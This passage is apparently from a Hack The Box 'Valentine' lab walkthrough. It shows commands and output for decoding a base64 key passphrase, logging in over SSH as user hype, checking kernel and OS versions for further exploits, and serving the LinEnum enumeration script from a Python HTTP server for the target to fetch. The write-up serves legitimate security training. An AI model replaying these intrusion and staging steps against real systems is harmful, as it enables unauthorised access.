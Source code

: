 ```
kali@kali:~/htb/Valentine$ echo "aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==" | base64 -d
heartbleedbelievethehype
kali@kali:~/htb/Valentine$
```

So now let’s try that as the rsa passphrase:

```
kali@kali:~/htb/Valentine$ sudo ssh -i rsa.key hype@10.129.1.190
Enter passphrase for key 'rsa.key':
Welcome to Ubuntu 12.04 LTS (GNU/Linux 3.2.0-23-generic x86_64)

 * Documentation:  https://help.ubuntu.com/

New release '14.04.5 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

Last login: Fri Feb 16 14:50:29 2018 from 10.10.14.3
hype@Valentine:~$ id
uid=1000(hype) gid=1000(hype) groups=1000(hype),24(cdrom),30(dip),46(plugdev),124(sambashare)

```

And we got a foothold!

I check the version to see if we got any other exploits:

```
hype@Valentine:/$ uname -a
Linux Valentine 3.2.0-23-generic #36-Ubuntu SMP Tue Apr 10 20:39:51 UTC 2012 x86_64 x86_64 x86_64 GNU/Linux
hype@Valentine:/$ lsb_release -a
No LSB modules are available.
Distributor ID: Ubuntu
Description:    Ubuntu 12.04 LTS
Release:        12.04
Codename:       precise
hype@Valentine:/$
```

And I also find Linenum to do some enumeration:

```
kali@kali:~/htb/Valentine$ locate linenum
/opt/linenum
…
…
...
kali@kali:~/htb/Valentine$ cp /opt/linenum/LinEnum.sh .
kali@kali:~/htb/Valentine$ sudo python -m SimpleHTTPServer 8000
Serving HTTP on 0.0.0.0 port 8000 ...
```

And I start a webserver to download it.

